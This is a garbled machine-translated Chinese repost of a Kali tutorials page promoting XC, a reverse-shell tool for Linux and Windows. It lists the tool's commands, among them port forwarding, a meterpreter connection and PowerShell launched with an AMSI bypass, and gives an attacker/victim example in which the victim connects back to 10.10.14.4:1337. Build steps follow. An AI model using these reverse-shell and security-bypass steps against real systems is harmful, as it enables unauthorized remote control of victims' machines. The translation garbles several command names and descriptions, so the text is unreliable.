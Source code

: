 # Linux 和 Windows 的反向小外壳

> 原文：<https://kalilinuxtutorials.com/xc/>

[![](img//a7a81e064e0d55c03ba821d20545a7da.png)](https://blogger.googleusercontent.com/img/a/AVvXsEgQBVN90VsAw7erLA4up8S4UpxQE9Dt8dad5iNRqBAwDSfR0fsXJKIzNmbpRASkmoIpAKI7Tw4wcP0_j_3m-9YesEfyUiqpivfmkiqCkM5o0y7qLzlTvQTyqIi8pMIYuNax6qTbIyIcduEAJePtHA8XpVom4RXy2uxSvXQNkvELE7tngS9SSXDAcILK=s728)

**XC** 是一个类似 Netcat 的用于 Linux & Windows 的反向 shell。

**特性**

**窗户**

**用法:
└共享命令:！退出
！上传**

*   **上传文件到目标
    ！下载**
*   **从目标
    下载文件！lfwd**
*   **本地端口转发(如 ssh -L)
    ！rfwd**
*   **远程端口转发(如 ssh -R)
    ！lsfwd**
*   **列出主动转发
    ！rmfwd**
*   **按索引向前删除
    ！插件**
*   **列出可用插件
    ！插件**
*   **执行一个插件
    ！产卵**
*   **在指定端口
    产生另一个客户端！壳牌**
*   运行/bin/sh
    ！鲁纳斯
*   **用指定用户
    重启 xc！遇到了**
*   **连接到 x64/meterpreter/reverse_tcp 监听器└操作系统特定命令:！powershell**
    *   **通过 AMSI 旁路
        启动 powershell！rc**
    *   **连接到本地 bind shell 并通过它重新启动该客户端
        ！鲁纳普斯**
    *   **使用 powershell
        以指定用户重启 xc！vulns**
    *   **检查常见漏洞**

**Linux**

**用法:
└共享命令:！退出
！上传**

*   **上传文件到目标
    ！下载**
*   **从目标
    下载文件！lfwd**
*   **本地端口转发(如 ssh -L)
    ！rfwd**
*   **远程端口转发(如 ssh -R)
    ！lsfwd**
*   **列出主动转发
    ！rmfwd**
*   **按索引向前删除
    ！插件**
*   **列出可用插件
    ！插件**
*   **执行一个插件
    ！产卵**
*   **在指定端口
    产生另一个客户端！壳牌**
*   运行/bin/sh
    ！鲁纳斯
*   **用指定用户
    重启 xc！遇到了**
*   **连接到 x64/meterpreter/reverse_tcp 监听器
    └操作系统特定命令:
    ！宋承宪**
*   **使用指定端口**上配置的密钥启动 sshd

**例题**

*   Linux 攻击者:`**rlwrap xc -l -p 1337**`(服务器)
*   WindowsVictim : `**xc.exe 10.10.14.4 1337**`(客户端)
*   参数 ss:

**设置**

请确保您运行的是 golang 版本，旧版本将无法编译。我在 ubuntu: `**go version go1.16.2 linux/amd64**`和 kali `**go version go1.15.9 linux/amd64**`上测试过

**git clone–recurse-submodules https://github.com/xct/xc.git
go 111 module = off go getgolang.org/x/sys/…
go 111 module = off go get golang.org/x/text/encoding/unicode
go 111 module = off go get github.com/hashicorp/yamux
sudo apt-get install rlwrap upx**

**Linux**

**python3 build.py**

[**Download**](https://github.com/xct/xc)